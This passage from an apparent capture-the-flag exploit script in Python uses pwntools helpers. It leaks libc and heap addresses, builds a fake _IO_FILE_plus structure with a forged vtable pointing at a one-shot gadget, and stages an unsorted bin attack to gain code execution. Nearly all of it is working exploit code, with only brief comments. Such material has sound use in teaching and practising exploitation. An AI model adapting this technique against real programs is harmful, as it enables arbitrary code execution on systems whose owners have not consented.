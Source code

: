     alloc(2) ## target unsorted chunk
    alloc(3)

    free(0)
    free(2)
    write(2, "A")

    # remote
    libc_base = u64(printIt(0)[1:7].ljust(8,'\0'))-0x3c1b58
    heap_base = u64(printIt(2)[1:7].ljust(8,'\0'))-0x41
    stdin_buf_end = libc_base+0x3c1900
    stdout_buf_end = libc_base+0x3c2640
    dl_open_hook = libc_base+0x3c62e0

    stdout =libc_base+0x3c26e8
    stdin = libc_base+0x3c26f0
    IO_list_all = libc_base+0x3c2500
    p_IO_wstr_finish = libc_base+0x3bdc90 # PTR to _IO_wstr_finish
    
    one_shot = libc_base+0xcde41 

    p_top_chunk = libc_base+0x3c1b58

    ghost_chunk = heap_base+0x940+0x10 
    ghost_chunk_bk = heap_base+0x620 # fake BK ptr 

    log.success("libc_base at: "+hex(libc_base))
    log.success("heap_base at: "+hex(heap_base))
    log.success("_IO_list_all at: "+hex(IO_list_all))
    log.success("pIO_wstr_finish at: "+hex(p_IO_wstr_finish))
    log.success("one_shot at: "+hex(one_shot))

    ## CRAFT GHOST_CHUNK
    payload  = p64(0xb00bface)*2        
    payload += p64(0x0)            # start of fp/fake _IO_FILE_plus object
    payload += p64(0x61)
    payload += p64(0xb00bface)  
    payload += p64(ghost_chunk_bk) # needed so malloc can traverse unsorted_bin to get next victim chunk
    payload += p64(0x0)            # fp->_IO_write_base
    payload += p64(0xb00bface)     # fp->_IO_write_ptr 
    payload += p64(0xb00bface)     # fp->wide_data->buf_base
    payload += "A"*60
    payload += p64(0x0)            # fp->_flags2
    payload += "A"*36
    payload += p64(ghost_chunk)    # fp->_wide_data (need to cast this as: struct _IO_wide_data!)
    payload += "A"*24
    payload += p64(0x0)            # fp->_mode
    payload += "A"*16
    payload += p64(p_IO_wstr_finish-0x18) # fake vtable
    payload += "A"*8
    payload += p64(one_shot)       # ((_IO_strfile *) fp)->_s._free_buffer
    write(3, payload)
    log.success("ghostChunk crafted!")

    payload  = p64(0xb00bface)     
    payload += p64(ghost_chunk)    # unsorted_bin->TAIL->BK 
    write(0,payload)
  
    alloc(4) # put ghost_chunk in unsorted_bin->TAIL
    alloc(5) # put ghost_chunk in small_bins[4] 
    log.success("ghostChunk placed into small_bin[4]!")

    ## UNSORTED BIN ATTACK 
    alloc(6)
